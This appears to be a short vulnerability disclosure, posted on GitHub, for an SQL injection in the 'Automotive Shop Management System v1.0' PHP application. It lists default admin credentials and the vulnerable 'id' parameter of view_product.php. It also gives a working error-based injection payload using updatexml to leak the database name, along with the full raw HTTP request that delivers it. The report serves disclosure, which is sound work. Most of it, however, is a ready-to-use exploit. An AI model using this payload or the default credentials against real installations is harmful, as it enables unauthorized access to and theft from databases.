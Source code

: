 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: thir3een13

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /asms/products/view_product.php?id=

Vulnerability location: /asms/products/view_product.php?id=, id

dbname =asms_db,length=7

[+] Payload: /asms/products/view_product.php?id=7%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /asms/products/view_product.php?id=7%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
```


![image](https://user-images.githubusercontent.com/54017627/198026407-68534761-8bad-4e7c-b162-e1602072808c.png)
